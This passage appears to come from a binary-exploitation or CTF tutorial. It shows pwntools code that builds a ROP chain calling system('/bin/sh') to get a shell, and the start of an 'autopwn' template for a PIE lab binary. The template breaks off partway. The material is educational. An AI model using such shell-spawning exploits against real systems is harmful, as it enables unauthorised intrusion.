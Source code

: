       # Payload to get shell: system('/bin/sh')
      payload = flat({
          offset: [
              pop_rdi,
              bin_sh,
              system_addr
          ]
      })
      
      # Send the payload
      io.sendline(payload)
      
      # Got Shell?
      io.interactive()
      ```
   

### 8. Autopwn script
   ```
   from pwn import *
   
   # Allows you to switch between local/GDB/remote from terminal
   def start(argv=[], *a, **kw):
       if args.GDB:  # Set GDBscript below
           return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
       elif args.REMOTE:  # ('server', 'port')
           return remote(sys.argv[1], sys.argv[2], *a, **kw)
       else:  # Run locally
           return process([exe] + argv, *a, **kw)
   
   # Specify your GDB script here for debugging
   gdbscript = '''
   init-pwndbg
   continue
   '''.format(**locals())
   
   # Set up pwntools for the correct architecture
   exe = './pie_server'
   # This will automatically get context arch, bits, os etc
   elf = context.binary = ELF(exe, checksec=False)
   # Enable verbose logging so we can see exactly what is being sent (info/debug)
   context.log_level = 'debug'
   
   # ===========================================================
   #                    EXPLOIT GOES HERE
   # ===========================================================
   
   # Lib-C library
   libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
   
   # Offset to RIP, found manually with GDB
   offset = 264
   
   # Start program
   io = start()
   
   # Offset of pop_rdi gadget from ropper
   # We need to find the PIEBASE before we can use
   pop_rdi_offset = 0x12ab
   
   ```